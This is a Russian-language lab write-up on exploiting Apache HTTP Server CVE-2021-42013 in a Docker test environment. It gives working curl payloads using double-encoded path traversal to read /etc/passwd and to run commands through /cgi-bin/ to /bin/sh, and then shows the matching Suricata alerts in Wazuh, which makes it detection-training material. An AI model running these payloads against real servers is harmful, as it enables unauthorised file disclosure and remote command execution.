 # CVE-2021-42013

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
